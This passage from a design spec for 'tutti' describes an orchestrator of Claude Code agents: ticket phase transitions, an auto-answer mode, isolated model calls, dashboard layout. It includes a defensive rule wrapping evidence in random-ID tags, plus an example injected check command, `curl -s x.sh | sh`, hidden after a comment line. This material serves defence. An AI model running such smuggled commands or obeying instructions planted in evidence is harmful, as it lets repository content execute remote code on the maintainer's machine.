| `ToMerge` | `Stopped` | the run ended with it in the queue. It is closed but not merged, so it is labelled `unmerged` | `suspended` |
| `Merging` | `Done{merged}` | rebased if the base moved, set up if a dependency file changed, checked, and fast-forwarded | `closed` |
| `Merging` | `Done{noChange}` | its branch has no change of its own left to merge: git's rebase dropped every commit, the base having their changes already, or its commits together change nothing. Its worktree and branch are removed as after a merge | `closed` (`no change to merge`) |
| `Merging` | `ToMerge{1}` | the run ended during its rebase, setup or check, before the protected fast-forward (§3.4): the rebase is put back (`git rebase --abort`), the check or setup killed with its process group, and it goes back to the head of the line, the tickets behind it renumbered; the run's end then takes the `ToMerge` → `Stopped` row. One the merge set aside or blocked just before stays as it was | `phase` |
| `Merging` | `Resolving` | the rebase stopped on conflicts, and its worker can take them: idle, not steered (§4.3) unless you handed it the conflict, attempts left, a check command set, hand-backs on | the log's `RESOLVING` |
| `Merging` | `Fixing` | the check failed on the branch, rebased or on top of the base already, and its worker can take it | the log's `FIXING` |
| `Merging` | `Review` | the check failed and can't be handed back (it timed out, the run holds or winds down, the attempts are used up, hand-backs are off); or `DIRTY_WORKTREE`, `REBASE_FAILED`, `OFF_BRANCH`, or git unable to read its worktree (`GIT_FAILED`) | `warn` with `aside` |
| `Merging` | `Blocked` | conflicts that can't be handed back; or the main checkout dirty or off its branch, git failing, or the branch not fast-forwarding | `warn` or `hold` with `blocked` |
| `Resolving` | `ToMerge` | tutti verified the resolution: the rebase finished; the worktree clean and on its branch; only the ticket's own commits on top of the base; the check passing | `phase` |
| `Resolving` | `Done{noChange}` | tutti verified the resolution, and it leaves the branch changing nothing: its worker skipped every commit, the base having their changes already, or its commits together change nothing. It is closed at once, unchecked, its worktree and branch removed as after a merge, as orchestra does | `closed` (`no change to merge`) |
| `Resolving` | `Fixing{afterResolution}` | the resolution is verified, but its check fails, and the failure is handed back | the log's `FIXING` |
| `Resolving` | `Blocked` | the resolution was rejected, or wasn't done within `resolve_timeout`. The branch is put back as the ticket closed it | `warn` with `blocked` |
| `Fixing` | `ToMerge` | tutti verified the fix (new commits naming the ticket; the worktree clean and on its branch) and the check passes; or its worker committed nothing, finding nothing to fix, and the check passes on a second run | `phase` |
| `Fixing` | `Fixing` | the check fails again, with attempts left (`check_hand_backs`) | the log's `FIXING` |
| `Fixing` | `Review` | the attempts are used up, or the fix can't be accepted. The branch is reset to where the check failed. Or its worker committed nothing and the check fails on a second run too: not handed back again | `warn` with `aside` |
| `Fixing{afterResolution}` | `Blocked` | the same, after a resolution | `warn` with `blocked` |
| `Resolving`, `Fixing` | `Stopped` | the run ended during the hand-back; its rebase or fix is left as it is, and the `INTERRUPTED` line says so. One kept for the usage limit's reset and never sent (§4.12) has its rebase aborted instead, and the closing line says it was never sent | `suspended` |
| `Review{CHECKS_FAILED}` | `ToMerge` | the base moved on since the check failed; the failure isn't in the ticket's own code; it hasn't been checked again in this run | the log's `RECHECK` |
| `Review`, `Blocked` | `Done{merged}` | the base moved on, and git finds the ticket, closed, merged by hand (§5 item 8); not one whose conflict hand-back waits for its steered worker | `closed` (`<commit> merged by hand`) |
| `Blocked{MERGE_CONFLICT}` | `ToMerge` | you pressed **Hand it the conflict now** (§4.3) for a hand-back waiting on its steered worker. It is rebased again, and the conflict is handed back with the steered check waived once. Releasing the worker (§4.3) does the same, with no waiver | `phase` |

Merging a ticket rebases it again if more landed meanwhile, so a ticket can go from `Merging` to `Resolving`, back to `ToMerge`, and through `Merging` again. Each pass counts toward its attempts.

**Asked, with `--auto-answer` (§8.2; src/run/autoAnswer.ts).** The ready poll's fill answers questions before `takeAnswers` reads the Asked tickets, so the ticket is resumed in the same look: when it goes Asked, its fiber's slot freed wakes the run at once; with a time, the first poll after the question has waited it with the machine awake, counted from its creation. A question is answered when it was filed during this run (created after the run began), blocks one of the run's Asked tickets, gives options with one recommended in its metadata (§4.11's question rule, Beads.ts's `questionOptions`), and isn't `maintainer_only`. tutti records the answer with `bd human respond <question> "<label> (the recommended option, chosen by tutti --auto-answer, not by the maintainer)"`, which closes it, labels it `auto-answered`, and says `AUTO_ANSWERED: <question> (<title>), which <ticket> waits on, answered with its recommended option by --auto-answer, not by you: <label>` with an `auto_answered` record (§10); a respond bd refuses (its database busy, mostly) is warned of once and tried again at the next look, the run kept open for it, and after 3 tries it is left to you, its line saying so, and, bare, as its `asked` record didn't notify (§7.9), notifying `<ticket> needs your answer · <title>` then. Then `ANSWERED: … is answered by --auto-answer` and the resume as for any answer, the worker told `tutti: your question <q> (<title>) is answered, not by the maintainer: tutti chose its recommended option, <label>, by --auto-answer. …`. Left to you, as without the flag: a question without well-formed options, a `maintainer_only` one, and any open when the run began, perhaps left open on purpose; its `ASKED` line, or a carried ticket's, ends `; --auto-answer leaves it to you: it gives no options` (`it asks you to do something only you can`, `it was open before the run`). An answer from you first closes the question, and tutti doesn't answer it again. With a time, a question tutti will answer keeps the run from ending (runEnd.ts's `answering`), as a ticket still to resume does, until it is answered or the run holds.

**What a look reads of its Asked tickets (src/run/asked.ts's `AskedLook`; tutti-gr4z.6).** Each `bd show` is 0.45-0.75 s, and bd serves them one at a time, so the look reads as little as it can for its Asked tickets, with or without `--auto-answer`. Where a ticket is Asked, it reads `bd list` (the open tickets) once, before the answers, and gives it to the fill, which reads it no more (the scheduler's `fillWith`; one `--auto-answer` answered from closes a question, and the fill reads its own). A ticket whose question that list has open and labelled `human` isn't shown at all: it can't come back yet. One answered by you drops out of the list, and its ticket is shown and resumed at that look. Otherwise (the list unread, bd failing it), `answerQuestions` and `takeAnswers` share the ticket's `bd show` in the look, shown again only where `--auto-answer` has just answered its question; it resumes at the first look after its question closes, as before. A question left to you for being open before the run is remembered so for the run (`AutoAnswering`'s `before`), from the first look that shows it or from carry-over's `autoAnswerOf`, and not shown again, as its creation time and the run's start never change; one left to you for another reason (`maintainer_only`, no options) is shown at each look, as its metadata may change.

**What a fill reads of the waiting tickets' links (src/run/schedule.ts's `linksOf`; tutti-gr4z.7).** bd ready gives a ticket's links but not the issues they link to, whose status and labels the holds read (a blocker or source not merged, §5's Scheduling). The fill takes them from the two lists it has read already: bd's open list (the look's, or its own) and its closed tickets labelled `unmerged`, read for the first ticket it weighs. An issue in neither is closed without the label, or one bd hides from both lists (a tombstone), and reads as closed: git says whether its work is on the base (`closedBranches`), and the run's own ledger whether it merged, as for any closed one. So a fill makes no bd call for the links, neither a `bd list --id` (0.7 CPU-s and 0.5-1 s of bd's lock a look) nor a `bd show` a ticket, and fails only where it reads those lists.

#### How the phases are shown

- **One row per ticket**, from the moment the run picks it up until the run ends. The row changes as the phase does, and keeps its place in the tickets table but as its ticket leaves Current (it no longer has a card), when it moves to the end: the rows are in the order their tickets came to an end, as orchestra 0.8.6's (orchestra-60xg). A ticket that comes back, such as `Waiting` → `Queued` → `Working`, keeps its row. One that leaves `bd ready` while `Queued` again leaves the run, and its row with it.
- **Shown once.** Beside Current, the tickets table leaves out the rows of the tickets Current shows, whatever their phase, so that no ticket is shown twice in a frame: a ticket's row comes in under the others as its card goes (orchestra-60xg, orchestra-lx4d.4). Where Current isn't drawn (the end-of-run box), the running tickets keep their rows; the run's summary lists every ticket.
- **Cards** exist for the phases with work under way: `Working`, `Resolving`, `Fixing`, `ToMerge`, `Merging`. A `Blocked{MERGE_CONFLICT}` ticket whose hand-back waits for its steered worker (§4.3) keeps its card, `conflict waits for you`, framed `needsYou`. A `Review{CHECKS_FAILED}` ticket checked once more has a card again while it is `ToMerge` and `Merging`, its action line reading `checking again: <base> moved on since its check failed`. A `ToMerge` ticket checked ahead of its turn (the merge train, `merge.train`) has its action line say how that check goes, as orchestra 0.8.6's mergeTrain.activity: `rebasing onto <branch ahead>, to be checked ahead of its turn on top of it as it is checked`, `checked ahead of its turn, on top of <branch ahead> as it is checked`, `passed its check ahead of its turn, on top of <branch ahead>: merges with no further check if <branch ahead> merges as checked`, or `failed its check ahead of its turn, on top of <branch ahead>: checked again in its turn`, until its turn has taken its train (`src/run/mergetrain.ts`'s `checksAhead`).
- **Motion means a worker at work.** The spinner turns in `Working` while the worker works, and in `Resolving` and `Fixing`. Otherwise a static mark replaces it: `◼` in `ToMerge`, `◆` in `Merging`, `•` once a worker's turn has ended.
- **The totals count phases**, as the table above says. `ToMerge` and `Merging` count as completed only once they reach `Done`.
- **The wind-down line** gives each ticket running when the wind-down began a `■`:
  - `windingDown` while it is in `Working`, `ToMerge`, `Merging`, `Resolving` or `Fixing`
  - `done` once `Done`
  - `needsYou` once `Deferred`, `Review`, `Blocked`, `Asked` or `Stopped`
  - faint once `Waiting`
- **Colours** come from the roles in §7.11, by row.

#### In the code

- **The types.** `TicketPhase` is a tagged union, an Effect `Data.TaggedEnum` with a Schema for the event stream. It lives with its transitions in `src/run/phase.ts`.
- **The transition table is data**, the table above. One function, `transition(phase, move)`, the move a row's When (`src/run/phase.ts`'s `Move`), returns the next phase or an `InvalidTransition`. Every phase change in the run loop goes through it; nothing assigns a phase directly.
- **An invalid transition is a bug.** It is logged once as `PHASE_BUG: <id> <from> → <to> (<cause>)`, the ticket keeps its phase, and tests fail on it.
- **The ledger** (§3.4) holds each ticket's phase. `RunView`'s rows, cards and totals are derived from the phases and the workers' states, never kept separately.
- **Every transition writes a `phase` record** to the event stream (§10). The kinds that orchestra already had (`dispatch`, `closed`, `deferred`, …) are still written beside it, so its scripts and skill keep working.

---

## 6. Organs

### 6.1 The provider: `AgentSdkLanguageModel`

Organs are written against `effect/ai`'s `LanguageModel` (D10, D16). `LanguageModel.make({ generateText, streamText, codecTransformer })` builds the service from provider functions. Each receives `ProviderOptions`: `prompt`, `tools`, `responseFormat` (`{ type: "text" }` or `{ type: "json", objectName, schema }`) and `toolChoice`. tutti's provider implements `generateText`, which `generateObject` goes through, with one SDK session per call. Organs don't stream: `streamText` fails at once with `AiError`'s `InvalidUserInputError`, on the API-key provider too.

- **The prompt.** `ProviderOptions.prompt` (system and user messages) becomes the SDK's `systemPrompt` (a plain string, not the `claude_code` preset) and a single user message. The system messages are joined with a blank line, and the string starts with one.
  - **The model sees more than that string** (docs/spikes/04-effect-ai.md § 2, SDK 0.3.301, Claude Code 2.1.301). A string `systemPrompt` replaces Claude Code's default prompt, but Claude Code still puts its identity line (`You are a Claude agent, built on Anthropic's Claude Agent SDK.`) in front of it with no separator, which is why the string starts with a blank line. After it come an environment section (the working directory, whether it is a git repository, platform, shell, OS version, advice that downloaded files are untrusted, the model's name and ID, today's date) and a `<system-reminder>` with the account's email address. With `systemPrompt: ""` the identity line stands alone before them.
  - **Nothing turns this off.** `settingSources: []` doesn't, and no SDK option does: `excludeDynamicSections` works only with the `claude_code` preset, and moves the sections into the first user message. It costs about 600 input tokens a call. It says nothing about the repository, since `cwd` is the organ's empty temp folder; the scout's names the repository's root.
  - **Organs don't rely on it.** The API-key provider below sends the system prompt alone, so an organ's prompt never refers to the working directory, the date or the account; evidence that needs one of them carries it.
- **Structured output.** For `responseFormat.type === "json"`, the provider converts `responseFormat.schema` with **`effect/ai`'s `AnthropicStructuredOutput`** codec transformer. Anthropic's structured output accepts only a subset of JSON Schema, and this transformer "adapts Effect Schema codecs to the JSON Schema subset accepted by Anthropic structured output", keeping unsupported constraints in the decoding codec.
  - The JSON Schema goes to the SDK as `outputFormat: { type: "json_schema", schema }`.
  - The result's structured output is returned as the text part `generateObject` decodes.
  - `error_max_structured_output_retries` becomes `OrganFailed{subtype}`.
  - **A `success` result without `structured_output` is a structured-output failure too.** A model can decline the `StructuredOutput` tool that `outputFormat` adds: after one `[structured-output-enforce] You MUST call the StructuredOutput tool` message, the CLI accepts a text ending, with `subtype: "success"`, `stop_reason: "end_turn"` and no `structured_output`, and `MAX_STRUCTURED_OUTPUT_RETRIES` is never reached (docs/spikes/04-effect-ai.md § 4, Claude Code 2.1.301). The provider fails such a turn with `AiError`'s `StructuredOutputError` reason, the model's text as its `responseText` and the result's cost in its metadata, as it does for retries exhausted. Organs see it as `OrganFailed{subtype}`, with the subtype `success`.
- **Isolation**, matching orchestra's organ isolation, with the SDK's own options:
  - `tools: []` ("Disable all built-in tools"); the scout's are in §6.3
  - `strictMcpConfig: true` and no `mcpServers`
  - `settingSources: []` ("SDK isolation mode": no settings, CLAUDE.md, hooks or skills), the equivalent of orchestra's empty directory and `CLAUDE_CODE_SAFE_MODE=1`
  - `permissionPrompts: "none"`: anything that would prompt is denied at once
  - `persistSession: false`, so no transcript is written
  - `cwd`: a fresh private temp directory, removed after the call (the scout uses the repository's root instead)
  - `env` as for workers (§4.13: the API key handled the same way)
- **Effort and model** per organ, as orchestra sets them: `low` for triage and the predictor; `medium` for the report and the scout. `--organ-model` and `--organ-effort` override them.
- **Time limits**, as `Effect.timeout` per organ: 2 min for the predictor, 3 min for triage, 5 min for the report and the scout. The SDK's `abortController` is aborted on interruption.
- **Cost.** The provider records each call's cost in an `OrganCost` service as the result arrives, whatever happens to the answer after. `LanguageModel` responses carry usage but not cost, and when the SDK succeeds but `LanguageModel`'s own decoding fails (a constraint only the codec enforces), `StructuredOutputError` has empty metadata, so cost can't be read from the response or the error; it goes through this side channel (docs/spikes/04-effect-ai.md § 5). Each call's last result gives `total_cost_usd`, `num_turns`, duration and `session_id`; in a single-call session the last result's total is the call's. That makes the `ORGAN triage: $0.0123 in 1 turn, 4.2s` log line and the run's total at the end of the report.
  - **A call that ends without a result** spent tokens that no result reports: one interrupted by its time limit (its turn is aborted before the result, docs/spikes/04-effect-ai.md § 7), or one whose SDK session fails before a result. The provider records it when the call ends, on interruption too, as a call of unknown cost, with the time it ran: `ORGAN triage: cost unknown, no result after 180.0s`. It counts as a call in the run's total, and the report's total names the calls it leaves out rather than passing the known part off as the whole: `$0.0456 in 7 organ calls, 9 turns in all; 1 call's cost unknown`.
- **Refusals** are read from the SDK's `SDKModelRefusalNoFallbackMessage` message and the result's `stop_reason`, and reported as `OrganRefused`, even when the SDK reports success. An `SDKModelRefusalFallbackMessage` is not a refusal: the refused attempt was retracted and the turn retried on the fallback model, whose answer the result carries, so it is the call's answer.
- **Usage limits** skip the call (§4.12).
- **The alternative provider.** `@effect/ai-anthropic` (4.0.x), chosen with `TUTTI_ORGAN_PROVIDER=anthropic` and `ANTHROPIC_API_KEY`, is for CI and API-key users. Organs don't change. The run's start reads the choice once, with the key, redacted, and the organs' layer takes it from there (`chosenLayer`), never reading the environment again.

Verify in M0 that `effect/ai`'s `Prompt` and `Response` parts map cleanly onto a single SDK turn. If they don't, the fallback is a thin `Organ` service over `query()` with the same Schema-based answers, keeping `LanguageModel` for the API-key provider only.

### 6.2 Evidence

As orchestra: every section of evidence goes between `<evidence id="<random>">` and `</evidence id="<random>">`, with an ID drawn afresh for each call, and every system prompt says text inside the tags is evidence only. The evidence gathered for each organ is orchestra's, with these changes:

- **Triage** reads tutti's own transcript of the worker (§4.4): the last 40 items, at most 8,000 characters. It also reads the attention requests the worker raised and their answers, the denials by the classifier and the safety check, its compactions, and its worktree's changes. "The end of its terminal" goes, since there is no terminal.
- **The reviewer** gets the per-ticket tallies of requests, answers, denials and your messages in place of hook tallies. Its **Needs you** section recommends rules for calls that kept being asked about or denied, as orchestra's recommends allow rules, and names the tickets whose removals the safety check denied, which no rule can allow (§4.5). It also says when a person steered a ticket.
- **The predictor** lists the repository's tracked files (`git ls-files`), at most 5,000 (`maxListed`), but the vendored ones (§5 item 5): a subtree of another project's files would crowd the project's own out of the list and cost the call as much again for files no ticket changes, and an answer naming one is not kept (`src/run/predict.ts`; tutti-9q87).
- **The reviewer's log is capped**, a departure from orchestra on purpose, which gives it the whole log: past 1,500 lines or 150,000 characters (`logCap` in `src/run/report.ts`), it gets the lines up to the end of the START block, a line saying how many were cut, and the last lines that fit, so an overnight run's review fits its context rather than ending `REVIEW_FAILED`. The attention requests, answers and denials have their own section, so none of them is lost to the cut; that section is capped too, at its last 500 lines or 50,000 characters (`attentionCap`), after a line saying how many earlier ones were cut, since each ticket's tallies, in their own section, still count them all. The Log keeps the run's lines in a list appended in place, and where its START block ends, since the block's notes are indented as a ticket's lines are. The rest of its input is capped the same way, a departure from orchestra on purpose, which caps only close reasons, so the whole stays within the reviewer's context (`reviewerBudget`, about 500,000 characters): the commits merged, the tickets closed, set aside and in progress, and each ticket's tallies keep their last items within `listCaps` (300 closed tickets or 80,000 characters, for one), after a line saying how many earlier ones were cut; each section the run gathers itself (the failed checks, the full check, the feature request, the follow-ups) keeps its last 1,000 lines or 15,000 characters (`evidenceCap`); and a set-aside ticket's notes keep their last 1,500 characters (`notesWidth`), from the start of a line, where the latest notes are. The tickets closed and set aside are read with one bd list (`src/run/ticketReads.ts`'s `listedOrShown`), as `labelAtEnd` reads the run's tickets; one the list doesn't give is shown on its own, and where the list fails a show each, four at a time (`showConcurrency`), keeping their order.

**The context Claude Code adds** to every organ's prompt (§6.1) changes none of this. It is Claude Code's own text, outside the tags, and holds nothing a worker, a ticket's author or the repository's files wrote, so it is no channel for instructions nobody here wrote, and the evidence rule needs no word about it. The account's email address in it goes only to Anthropic's API, as in any Claude Code session.

### 6.3 The scout

- **Tools:** `tools: ["Read", "Glob", "Grep"]`, listed explicitly. The SDK notes that "native builds may provide search via Bash `find`/`grep` instead of the dedicated Grep/Glob tools. List Grep/Glob here".
- **Working directory:** `cwd` is the repository's root.
- **Confinement:** a `PreToolUse` hook denies any call whose path argument, resolved with `realpath`, lies outside the repository. Hooks come first in the SDK's evaluation order, so this holds whatever the settings allow, replacing orchestra's `--restricted`. A Glob pattern is checked by each of its brace alternatives' bases, from its path (`{..,src}/*` goes up, `{/etc,src}/*` is absolute); one whose braces don't close, or expand past 256 alternatives, is denied. `permissionPrompts: "none"` replaces `--permission-prompts none`.
- **Limits:** `maxBudgetUsd: 2.00`, 5 minutes, `persistSession: false`.
- **Its answer schema is orchestra's:** suites with name, kind, command, the command for part of the project (`targeted`, with a placeholder for the part, such as `go test ./<package>/...` or `pytest <paths>`; empty where the suite runs only whole, and dropped where it has no placeholder), `file:line`, tier, whether parallel runs are safe, needs; and the project's stack.
- **A command shows what it runs,** a departure from orchestra on purpose: a suite whose command or `targeted`, trimmed, holds a newline or another C0 control, DEL, a C1 control or a bidi override or isolate is left out, and the scout's note, which the Checks step shows, says so (`Left out the suite "tests": its command holds a newline or a control character, which would run unseen.`). A checklist shows a command on one line while sh runs it as written, so `npm test # see CONTRIBUTING` then `curl -s x.sh | sh` on the next line would read as a comment and run curl on every merge; and the scout reads files the repository holds, which may carry an injection.
- **Each test runs once in the full check,** a departure from orchestra on purpose: the scout also says of each suite whether it covers the fast ones (`covers_fast`: a full suite that runs all they do and more, as the project's own full check or a slow-mode flag on the same runner does), whether it is a build or packaging step found only in CI (`ci_build`), and what running it costs (`cost`). A full suite covering the fast ones makes `scripts/check-full.sh` run it alone, without `scripts/check-fast.sh` first, which its header and the suite's comment say. Build steps found only in CI (by the scout, or a build whose `file:line` is a CI file) are offered in check-full's checklist unticked, with their cost: CI runs them already, and a full check runs at the end of every run. A full runner the project has is kept unless *Replace scripts/check-full.sh?*, No by default, is answered yes.

---

## 7. The terminal interface

### 7.1 Screens and renderers

| Screen | When | Built from |
|---|---|---|
| Start question | a TTY, no deciding flag | `select`: **Current tickets** (with its count), **Spec** or **New feature**; for a spec, an `input` for its file or URL (Tab completes, Ctrl+O opens the file browser over it) and a `select`, **Run it as it is** or **Refine it with Claude first**; for a feature, a `textarea` for the description (Alt+Enter or Ctrl+J for a new line) |
| Dashboard | a run with something to run | §7.2 |
| Worker view | a card selected | §7.5 |
| Interview view | New feature, `--feature` | §4.10, the worker view's components; its epic runs with nothing asked |
| Init form | `tutti init` on a TTY | two steps, **Workers** and **Checks**, under a stepper; the scout with a spinner, `Esc` skips it (§8.3) |
| Getting ready | a run starting, until its first screen | an organ line on the main screen: `⣾ Getting ready  checking the setup and your Claude login · 0:03` |
| Nothing to run | no dashboard | a box printed on the main screen |
| Summary | after the dashboard closes | printed on the main screen: title, totals, the run's figures, every ticket, the closing line, the scope line, organ lines with spinners, the report |

**One renderer per command.** `tutti` creates one OpenTUI renderer, in `alternate-screen` mode. It runs from the start question through the interview and the dashboard, and is destroyed once. A second renderer after `destroy()` is unproven (#1533). Everything after it goes to the main screen as plain ANSI:

- the summary
- the organ lines, with spinners drawn by rewriting one line
- the report, rendered by a terminal Markdown renderer (headings, lists, emphasis, code, links), chosen in M3

`tutti init` has its own single renderer for its form.

**Getting ready.** Before its first screen a bare `tutti` (the run, not `tutti init`, `tutti answer` or the other commands) says what it is doing, on one spinner line on the main screen, from the moment its flags are parsed, before the startup checks, until the first thing it writes or draws: the start question, the Interview view `--feature` opens, the dashboard, the Nothing to run box, the start block of a plain run, or why it can't start (a startup problem or warning, `tutti init`'s message in a project not set up). It is the printer's organ line (`src/run/gettingReady.ts`, over `src/print/organLine.ts`), `Getting ready` and the step under way: `unpacking Claude Code` while a compiled build's embedded one is extracted (a frame is drawn first, as the copy holds the thread), `checking the setup and your Claude login` during the startup checks, `reading the backlog` for the tickets left unmerged, the carried ones and the ticket count, or the nothing check, and `starting the run` for the rest. It ends with no final line, so what follows looks as it would without it, and a spec's breakdown's own organ lines start after it: never two spinners. Its first frame comes after the spinner's interval, so a fast start shows nothing; it is drawn only where stdout is a terminal and `TERM` isn't dumb, so `tutti --plain | …` and scripts get nothing. Ctrl+C, a signal or a failure erases it, leaving no half line. The appearance is read after it starts, so it is drawn in styles that don't depend on it: the spinner bold and the text in the terminal's own colour, the time faint, as under `NO_COLOR`.

**The run's figures.** Under the summary's totals, a short block says where the time and the tokens went and how the checks did, without opening DuckDB:

```
  Time    63% queued · 19% held back (overlap 15%) · 14% working · 2% merging
  Checks  merge 31 of 32 passed, 1 timed out (mnemos-gts.16, 34m32s) · setup 32 of 32 · full passed
  Spent   53M tokens (94% from the cache) · $44.75 (estimate) · $1.24 a ticket (median)
  Usage   Current usage 11% → 17% · This week 40% → 41%
```

- tutti adds them up from the run's own records as it writes them (`src/run/figures.ts`), not with DuckDB, which it doesn't depend on: they are what `docs/analytics.md`'s queries give over the same run's records (`test/run-figures.test.ts` checks so for the analytics fixture).
- **Time**: each phase's share of the tickets' time in the run, from the `phase` records, as "Time per phase" counts it (a ticket's last phase counts no time); largest first, the phases under 1% left out; held back with its largest hold's share; then, if the machine slept, the time it slept, from the `slept` records (`machine asleep 34m19s`, §5 item 15).
- **Checks**: per suite (`merge`, `recheck`, `fix`, `setup`, `full`), passed of run (`setup 32 of 32`), then those failed, timed out or not run, with their tickets (up to three, then `+N more`) and the longest one's time. The full check's one run is `full passed` or `full failed (12m3s)`. The styled summary, printed after the full check, counts it; a plain run's log writes its summary before the full check, whose own line follows the closing line.
- **Spent**: the workers' turns' tokens, the cache's share of their input (`cache_read` of `input`, `cache_write` and `cache_read`), their dollars, and the median of a ticket's dollars where two tickets or more had turns. The organs' calls are left out, as the `end` record's `cost_usd` leaves them. On a subscription login the dollars are the API-price estimate: `(estimate)`, in `estimate` italics (§7.11); on an API key, plain.
- **Usage**: each of the account's windows at the run's start (the first `usage_window` the run recorded) and at its end, named as the title line names them (§7.2), one figure where it didn't move; left out on an API key, or when no window was reported.
- A line with nothing to say is left out, and a run that took no ticket prints no block. The labels are faint, ` · ` faint. Each line is cut to the terminal's width, the first part that doesn't fit ending in `…`; `--plain` writes the same lines without styles in the log's summary. All text is sanitised (§7.10).

**`TERM=dumb`** (and no TTY) uses line-based versions of the start question, the init form and the open questions, asking one question per line as orchestra's accessible mode does. Ctrl+D (end of input) cancels as Esc does. These are written without OpenTUI.

**The start question on a short screen.** Its texts are wrapped by tutti's wrap, each part as tall as its lines. On a screen too short for it, the select gives up its top lines first, cut, keeping its options while it is the field answered; under the description, the spec's field or the refine step it is left out where no line is left for it (tutti-lfii). The file browser shows fewer rows first. Left to Yoga, the texts shrank and drew their lines over each other, and OpenTUI cuts nothing of what a box with no height draws.

**tutti init's form on a short screen.** Its texts are wrapped by tutti's wrap too, each part as tall as its lines. The field asked is drawn whole; above it, the lines done in the step give up their top lines first, then the title, init's words and the stepper, cut from their top, keeping a blank line between the parts (tutti-v62n). Left to Yoga, its title, words, stepper and done lines drew over each other.

### 7.2 The dashboard

orchestra's layout, rules and colours (its `docs/dashboard.md`) are kept, with these changes. Rows, cards and totals are drawn from each ticket's phase and its worker's state (§5.1). §7.11 has the colours in full.

```
 Tutti  0.1.0   batch/2026-10-20 · 18m40s · ticket tut-8f2    usage 85% · resets 14:05
╭───────────────┬───────────────┬───────────────┬────────────────────────╮
│ ✓ 2 Completed │ ↷ 1 Set aside │ 1 Needs you   │ 9 of 16 In queue       │
╰───────────────┴───────────────┴───────────────┴────────────────────────╯
  Tickets
╭────────────┬─────────────┬─────────────────────────────────────────────╮
│ ✓ done     │ tut-dwv     │ ffd6ce4 merged into batch/2026-10-20        │
│ ↷ deferred │ tut-4hm     │ needs the maintainer's signing key          │
│ ✓ done     │ tut-b2e     │ 0c1a9e7 merged into batch/2026-10-20        │
╰────────────┴─────────────┴─────────────────────────────────────────────╯
  Current
╭──────────────────────────────────╮╭──────────────────────────────────╮
│ ◆ tut-kco  merging  6m31s        ││ ⣾ tut-zq4  testing  1m07s        │
│   Open the property model: Int…  ││   Add an undo stack for propert… │
│   merging into batch/2026-10-20… ││   ▸ Bash(scripts/check-fast.sh)  │
╰──────────────────────────────────╯╰──────────────────────────────────╯
╭──────────────────────────────────────────────────────────────────────╮
│ • tut-9a1  permission — waiting for you  2m10s                       │
│   Claude wants to run: rm -rf build                                  │
│   held by the safety check          [ Deny ]  [ Allow ]              │
╰──────────────────────────────────────────────────────────────────────╯
  Tab select · Enter open · d deny · s stop after current · ? keys
```

- **Cards are click targets.** A click, or `Tab` to highlight a card and `Enter`, opens that worker's view. Cards show no worker number, and no number key opens a worker: orchestra's `1`–`9` switch tabs, a departure on purpose (maintainer, 2026-10-22), as a click or `Tab` reaches every card, the 10th to the 16th too.
- **The order is stable, and the highlight stays on its ticket.** Each worker holds a place for the whole of its session; a new worker takes the first place free, and the cards never shift as others finish. The highlight, and every command a click or key sends, names the card's ticket, never a place, so as cards come and go the highlight stays on its card, and goes with it when it ends, rather than pass to the card that takes its place. orchestra renumbered, which let a key or click meant for one worker reach another as a worker finished.
- **Attention cards.** An attention card grows to show its request and buttons (§4.5). The cards keep their stable order, so an attention card stands out by its red border and size, not by moving. A card in the compact one-line layout shows `■ allow?` and opens its request in the Answer box with `Enter`, or with an answer key, which answers only a request drawn with its buttons (§4.5).
  - The illustration shows a request held by the safety check, as it comes in default mode (`defaultToNo`, §4.5): Deny comes first and has the focus, and there is no `a` hint.
- **Needs you** counts open attention requests, plus orchestra's questions and tickets blocked from merging.
- **The totals strip is one line in its frame**, each count beside its label (`✓ 2 Completed`, `↷ 3 Set aside · ◆ 2 triaged`, `1 Needs you`, `9 of 16 In queue · 2 held back`), a zero faint whole. orchestra puts a row of labels over a row of counts; a departure on purpose (maintainer, tutti-v6bd), which gives the tickets table and Current a line back. The first three cells are as wide as each other, up to a fifth of the strip, and In queue takes the rest, about two fifths on a wide pane; as the pane narrows the three give up width down to the widest's, then each down to its own, so that they line up while they can, and no cell is narrower than what it says. Set aside's triage note doesn't set the others' width: where it makes Set aside wider than they are, Set aside goes past them, so that at 120 columns the illustrated state's Completed and Needs you keep a fifth and In queue keeps the rest (maintainer, tutti-iolm). Where that still doesn't fit, Set aside's triage note is cut to ` · ◆ 2`, then left out (the Tickets table's ◆ rows still say it), so that the illustrated state's strip fits from 80 columns (maintainer, tutti-rm9o). Beside the panel (from 130 columns), the first three cells are a fifth each whatever they say, so that the bar before In queue, over the gap between the tickets table and the panel, doesn't move as verdicts arrive: where Set aside's triage note would widen its cell past its fifth, it is cut to ` · ◆ 2`, then left out (maintainer, tutti-ebra). A pane narrower than that gets the totals on one line (§7.11). The printed summary (§7.1) keeps orchestra's labels over counts, with its Workers column: it is printed once, after the run, where a line saved buys nothing.
- **The keep-awake badge**: ` keep awake `, a pill after the version, while the run's keep-awake command (§8.2) holds the machine awake: from the run's start, gone should the command end by itself, and never where the system has none or it isn't on the PATH (the START block's warning says so). It says nothing that changes during the run, so a narrow pane gives it up first, before anything the line cuts or shortens. orchestra's overnight badge is the model (its `titleLine` and `overnightStyle`), but blue; tutti has no overnight badge of its own, the keep-awake and auto-answer pills saying what `--overnight` turned on, on purpose (tutti-kkb.46); tutti's keep-awake badge is warm, its own `keepAwake` role (§7.11), on purpose, so that it reads apart from `toMerge`'s blue and the states beside it (tutti-7k79). RunView's title says whether the run keeps the machine awake (`TitleView.keepAwake`).
- **The auto-answer pill**: ` auto-answer `, or ` auto-answer after 10m ` with a time, after the version (and the keep-awake badge), for the whole of a run started with `--auto-answer` (§8.2): tutti answers questions for you, which you should see at a glance. It is tutti's own, in its own `autoAnswer` role (§7.11), a teal fill set apart from the keep-awake badge's amber. A narrow pane gives it up after the keep-awake badge, before anything the line cuts or shortens. RunView's title holds its words (`TitleView.autoAnswer`).
- **Banners on the title line**: the account's windows, or near a limit the usage (§4.12), and holds (`BLOCKED`, `USAGE_LIMIT · resets 14:05`).
- **The box with no worker** in Current says what the run does with no card: `picking the next ticket…`; `stopping…` while a stop, a wind-down or a quit holds it; and, while the end-of-run full check runs (§5 item 12), what it runs and for how long, its spinner turning: `setting up the full check: bun install --frozen-lockfile · 12s`, then `full check: scripts/check-full.sh · 1m12s`, the time counting as a card's does from the step's start (`src/ui/Card.tsx`'s `idleText`, Status's `fullCheck`). A spec run's checks gate (§4.14) is shown so too, `setting up the checks gate: …` and `checks gate: <command> · <time>`, its time from the gate's start (FullCheckRun's `gate`). It said `picking the next ticket…` through the full check, with the queue empty and nothing more to start, and a run in its two-minute full check was taken for stuck (tutti-yek1).
